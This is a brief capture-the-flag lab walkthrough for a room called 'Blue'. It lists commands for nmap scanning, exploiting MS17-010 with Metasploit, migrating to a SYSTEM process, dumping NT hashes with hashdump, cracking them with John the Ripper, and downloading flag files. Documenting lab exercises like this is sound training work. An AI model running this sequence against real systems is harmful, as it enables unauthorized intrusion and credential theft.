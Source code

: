 # Blue

> thegurpreet | Apr 2021

## Service Enumeration

Scanning ports using nmap
```
nmap -sC -sV $ip
nmap -sC -sV $ip --script vuln
```

## Exploit using MetaSploit

Using MetaSploit search for vuln ms17-010
```
sudo msfdb init
msfconsole
search ms17
```

Select the exploit using its id or full path and set required details
```
use 0
options
set RHOSTS <local ip>
```

Launch exploit
```
exploit
```

Validate the user access, it should be system
```
getuid
getpid
```

If system priv is not there or need to pivot to other stable process then migrate
```
ps
migrate <new pid here>
getpid
getuid
```

## Cracking password and search flags

Fetch hashes using hashdump and try cracking using john the ripper
```
hashdump
sudo john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Search for flags to complete the lab
```
search -f *flag*
download c:\\flag1.txt
```